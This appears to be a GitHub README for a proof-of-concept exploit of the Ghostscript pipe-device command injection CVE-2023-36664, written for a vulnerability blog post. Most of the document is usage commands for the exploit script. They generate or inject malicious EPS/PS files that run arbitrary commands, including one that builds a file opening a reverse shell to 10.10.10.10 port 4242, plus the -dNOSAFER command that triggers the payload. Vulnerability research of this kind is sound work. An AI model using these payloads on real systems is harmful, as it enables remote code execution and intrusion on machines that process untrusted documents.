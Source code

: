 # Ghostscript command injection vulnerability PoC (CVE-2023-36664)

Vulnerability disclosed in Ghostscript prior to version 10.01.2 leads to code execution (CVSS score 9.8).

<a href="https://nvd.nist.gov/vuln/detail/CVE-2023-36664" target="_blank">Official</a> vulnerability description:
> Artifex Ghostscript through 10.01.2 mishandles permission validation for pipe devices (with the %pipe% prefix or the | pipe character prefix).

<a href="https://www.debian.org/security/2023/dsa-5446" target="_blank">Debian</a> released a security advisory mentioning possible execution of arbitrary commands:
> "It was discovered that Ghostscript, the GPL PostScript/PDF interpreter, does not properly handle permission validation for pipe devices, which could result in the execution of arbitrary commands if malformed document files are processed."

The repo is created for a CVE analysis blog post available on <a href="https://www.vicarius.io/vsociety" target="_blank">vsociety blog</a>.

## Exploitation
Download Ghostscript 10.01.1 here: https://github.com/ArtifexSoftware/ghostpdl-downloads/releases/tag/gs10011
Direct link to Windows x64 executable: https://github.com/ArtifexSoftware/ghostpdl-downloads/releases/download/gs10011/gs10011w64.exe

The exploitation can occur upon opening a PS or EPS file and can allow code execution caused by Ghostscript mishandling permission validation for pipe devices. 

Usage: `python3 CVE_2023_36664_exploit.py <input_file> <command>`

Example:
```bash
python3 CVE_2023_36664_exploit.py file.eps "calc"
```
This generates a new file called `file_injected.eps`.

Open this with Ghostscript to trigger the calculator (since version 9.50 you also have to use `-dNOSAFER` option):
```bash
gs10011w64.exe -dNOSAFER .\file_injected.eps
```
<img width="905" alt="proof" src="https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection/assets/42498816/7d3dcc9b-bc58-4411-b4d8-725bafd02499">

Other examples:
Generate a new EPS file called run_calculator.eps with payload "calc" (pops up a new calculator on Windows)
```bash
python3 CVE_2023_36664_exploit.py --generate --payload calc --filename run_calculator --extension eps
```
Generate a new EPS file called rev_shell.eps with a custom IP (start a reverse shell when triggered on Unix)
```bash
python3 CVE_2023_36664_exploit.py --generate --revshell -ip 10.10.10.10 -port 4242 --filename trigger_revshell --extension eps
```
Generate a new PS file malicius.ps with payload "calc" (pops up a new calculator on Windows)
```bash
python3 CVE_2023_36664_exploit.py -g -p "calc" -x ps
```
Inject malicious custom payload ("calc") to an existing file called file.eps (pops up a new calculator on Windows)
```bash
python3 CVE_2023_36664_exploit.py --inject --payload "calc" --filename file.eps
```

## Disclaimer
This software has been created purely for the purposes of academic research and for the development of effective defensive techniques, and is not intended to be used to attack systems except where explicitly authorized. Project maintainers are not responsible or liable for misuse of the software. Use responsibly.
